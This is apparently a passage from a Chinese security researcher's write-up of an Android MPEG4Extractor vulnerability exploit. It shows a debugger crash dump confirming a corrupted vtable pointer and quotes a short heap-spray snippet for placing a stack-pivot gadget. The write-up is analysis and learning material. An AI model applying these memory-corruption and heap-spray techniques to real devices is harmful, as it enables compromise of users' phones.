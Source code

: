 ```
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
$r0   : 0x00000000
$r1   : 0xb74e2bb8  →  0x00000000
$r2   : 0x61616169 ("iaaa"?)
$r3   : 0x00000000
$r4   : 0xb550c590  →  0x00000428
$r5   : 0xfffffbf8
$r6   : 0xb550c580  →  0xb74e5c98  →  0x28040000
$r7   : 0xb550c570  →  0xfffffbf8
$r8   : 0xb74e2138  →  0xb6749f18  →  0xb66b2841  →  <android::MPEG4Extractor::~MPEG4Extractor()+1> ldr r3,  [pc,  #188]	; (0xb66b2900 <android::MPEG4Extractor::~MPEG4Extractor()+192>)
$r9   : 0x74783367 ("g3xt"?)
$r10  : 0xb550ca98  →  0x01000a98
$r11  : 0xb74e2790  →  0x28040000
$r12  : 0x00000000
$sp   : 0xb550c530  →  0xb74e2bb8  →  0x00000000
$lr   : 0xb66b57bd  →  <android::MPEG4Extractor::parseChunk(long+0> ldr r1,  [r4,  #0]
$pc   : 0xb66b57cc  →  <android::MPEG4Extractor::parseChunk(long+0> ldr r6,  [r2,  #28]
$cpsr : [THUMB fast interrupt overflow carry ZERO negative]
```
可以看到断在了`<android::MPEG4Extractor::parseChunk(long+0> ldr r6,  [r2,  #28]`,去 `ida` 里面找到对应的位置。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/15113320522611r713790.png?imageslim)
`r2`存放的就是虚表指针，可以确定成功修改了 虚函数表指针。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1511332282692sjn299pl.png?imageslim)

偏移也符合预期。

**堆喷射**

上面我们已经成功修改了`MPEG4DataSource ` 的虚表指针,并在虚函数调用时触发了 `crash` .

我们现在能够修改对象的 虚表指针，并且能够触发虚函数调用。我们需要在一个可预测的内存地址精准的布置我们的数据，然后把虚表指针修改到这里，在 `exploit` 中使用了
```
spray_size = 0x100000
spray_count = 0x10

sample_table(heap_spray(spray_size) * spray_count)
```

来进行堆喷射 

`heap_spray` 函数 就是使用 `pssh` 来喷射的内存。每次分配 `0x100` 页，共分配了 `0x10` 次。 `exploit` 作者在 博客中写道，这样就可以在可预测的内存地址中定位到特定数据。在这里就是 用于 `stack_pivot` 的 `gadget`.

对于这一点，我很疑惑，**有大佬可以告诉我为什么可以这样吗？ 或者有没有相关的 `paper` 来介绍为什么可以在 可预测的地址 精确的布置我们的数据**

### 最后
这个 `exploit` 写的确实强悍，提示我在进行漏洞利用时，要关注各种可能分配内存的地方，灵活的使用代码中的内存分配，来布局内存。 同时研究一个漏洞要把相关知识给补齐。对于这个漏洞就是 `MPEG4` 的文件格式和 相关的处理代码了。

一些tips：
